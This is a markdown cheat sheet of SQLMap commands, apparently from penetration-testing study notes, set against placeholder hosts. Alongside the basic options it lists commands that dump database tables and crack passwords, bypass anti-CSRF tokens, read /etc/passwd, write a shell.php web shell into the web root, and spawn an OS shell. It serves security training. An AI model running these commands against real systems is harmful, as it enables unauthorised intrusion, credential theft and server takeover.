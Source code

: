 # SQLMap

## Command	Description
| Command                                                                              | Description                                   |
|--------------------------------------------------------------------------------------|-----------------------------------------------|
| `sqlmap -h`                                                                          | View the basic help menu                     |
| `sqlmap -hh`                                                                         | View the advanced help menu                  |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`                           | Run SQLMap without asking for user input     |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`                          | SQLMap with POST request                     |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`                         | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                                                  | Passing an HTTP request file to SQLMap       |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`                    | Specifying a cookie header                   |
| `sqlmap -u www.target.com --data='id=1' --method PUT`                                 | Specifying a PUT request                     |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`         | Store traffic to an output file              |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`                        | Specify verbosity level                      |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`                | Specifying a prefix or suffix                |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`                                      | Specifying the level and risk                |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                     |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`                         | Table enumeration                             |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                         |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration          |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                                   | Database schema enumeration                  |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`                           | Searching for data                            |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`                        | Password enumeration and cracking             |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass |
| `sqlmap --list-tampers`                                                              | List all tamper scripts                       |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`                          | Check for DBA privileges                      |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`                  | Reading a local file                          |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file    |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`                                  | Spawning an OS shell                          |
